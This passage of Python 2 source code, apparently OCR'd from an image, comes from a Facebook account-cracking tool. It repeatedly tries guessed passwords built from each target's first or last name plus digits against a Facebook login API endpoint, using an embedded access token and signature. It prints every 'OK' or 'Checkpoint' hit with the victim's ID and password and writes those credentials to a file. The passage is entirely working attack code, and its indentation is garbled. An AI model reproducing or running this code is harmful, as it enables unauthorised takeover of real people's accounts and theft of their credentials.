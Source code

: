                                                                                    else:
			                                                                   if 'www.facebook.com' in q["error_msg"]:
				                                                               print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				                                                               print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                               print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                               print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass6 + '\n'
				                                                               cek = open("out/super_cp.txt", "a")
				                                                               cek.write("ID:" +user+ " Pw:" +pass6+"\n")
				                                                               cek.close()
				                                                               cekpoint.append(user+pass6)	
						                                           else:							
								                               pass7 = b['first_name']+'12345'						
								                               data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")						
								                               q = json.load(data)						
								                               if 'access_token' in q:		
				                                                                       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                       z = json.loads(x.text)
									                               print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'					
									                               print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']					
									                               print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user				
									                               print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass7 + '\n'					
									                               oks.append(user+pass7)
                                                                                               else:
			                                                                               if 'www.facebook.com' in q["error_msg"]:
				                                                                           print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'
				                                                                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mName \x1b[1;93m    : \x1b[1;93m' + b['name']
				                                                                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mID \x1b[1;93m      : \x1b[1;93m' + user
				                                                                           print '\x1b[1;93m[۩۞۩] \x1b[1;93mPassword \x1b[1;93m: \x1b[1;93m' + pass7 + '\n'
				                                                                           cek = open("out/super_cp.txt", "a")
				                                                                           cek.write("ID:" +user+ " Pw:" +pass7+"\n")
				                                                                           cek.close()
				                                                                           cekpoint.append(user+pass7)           					
								                                       else:						
										                           pass8 = b['last_name'] + '786'											
			                                                                                   data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass8)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                                                   q = json.load(data)												
			                                                                                   if 'access_token' in q:		
										                                   x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                                   z = json.loads(x.text)
				                                                                                   print '\x1b[1;91m[  *  ] \x1b[1;92m[OK]'											
				                                                                                   print '\x1b[1;91m[۩۞۩] \x1b[1;91mName \x1b[1;91m    : \x1b[1;91m' + b['name']											
				                                                                                   print '\x1b[1;91m[۩۞۩] \x1b[1;91mID \x1b[1;91m      : \x1b[1;91m' + user										
				                                                                                   print '\x1b[1;91m[۩۞۩] \x1b[1;91mPassword \x1b[1;91m: \x1b[1;91m' + pass8 + '\n'											
				                                                                                   oks.append(user+pass8)
                                                                                                           else:
			                                                                                           if 'www.facebook.com' in q["error_msg"]:
				                                                                                       print '\x1b[1;93m[ * ] \x1b[1;96m[Checkpoint]'